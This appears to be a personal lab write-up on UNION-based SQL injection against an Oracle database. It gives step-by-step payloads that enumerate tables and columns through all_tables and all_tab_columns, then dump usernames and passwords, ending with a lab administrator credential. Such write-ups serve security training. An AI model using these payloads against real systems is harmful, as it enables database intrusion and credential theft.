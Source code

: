 # Oracle database listing
#UNION 
#WRITEUP 
#DATABASEENUM 

The lab mentions to use an `UNION` attack so follow the [[Methodology UNION attacks]]

## 1. Columns of result set

As this is an Oracle database scenario the `UNION` payload is different, refer to [[Oracle querying database type and version]].

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/columns.png]]

The result set has two columns.

## 2. Columns that can hold string data

Both columns can hold string data

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/string data.png]]

## 3. Extract data

### Tables names

Extract the tables names from `all_tables` with the following payloads

```SQL
' UNION SELECT TABLE_NAME,NULL FROM all_tables--
```

![[tables names.png]]

As it's a similar scenario from the [[Non-Oracle databases listing contents]] I looked directly for the `users_XXXXX` table.

![[interesting table.png]]

`USERS_PGXVFU`

### Table columns

Then list the columns of the table with the following payload:

```SQL
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_PGXVFU'--
```

![[interesting columns.png]]

Finally extract the data from:

```
PASSWORD_DVGJZA

USERNAME_FVMHGL
```

With the following payload:

```SQL
' UNION SELECT USERNAME_FVMHGL,PASSWORD_DVGJZA FROM USERS_PGXVFU--
```

![[SQLInjection/Attacks/Enumerating the database/labs/SQL injection attack, listing the database contents on Oracle/image/admin creds.png]]

```
administrator:1fivsuazttskz208mteg
```

Finally, log in as the administrator user and the lab is solved!